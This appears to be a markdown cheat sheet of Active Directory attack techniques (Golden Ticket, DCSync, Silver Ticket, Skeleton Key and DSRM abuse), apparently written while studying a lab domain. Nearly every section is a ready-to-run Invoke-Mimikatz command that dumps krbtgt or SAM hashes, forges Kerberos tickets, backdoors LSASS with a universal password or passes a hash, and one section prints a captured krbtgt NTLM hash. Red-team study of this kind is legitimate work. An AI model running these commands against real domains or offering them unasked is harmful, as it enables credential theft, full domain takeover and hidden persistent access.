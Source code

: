 **Golden Ticket:**
++++++++++++++++++


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
```Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>```

Once we get the hash of krbtgt account, we can generate our own TGT using:
```Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'```

> Found the following creds of krbtgt:
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

To see currently stored tickets:
``` klist```


**DCSync**
```Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'```
Example: ```Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'```



**Silver Ticket:**
+++++++++++++++


Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

```Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'```


**Skeleton Key:**
+++++++++++++++


Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

```Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>```

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.



**DSRM(Directory Service Restore Mode):**
++++++++++++++++++++++++++++++++++++++


When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin privs are required
```Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>```

After obtaining the DSRM hash:

```Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'```



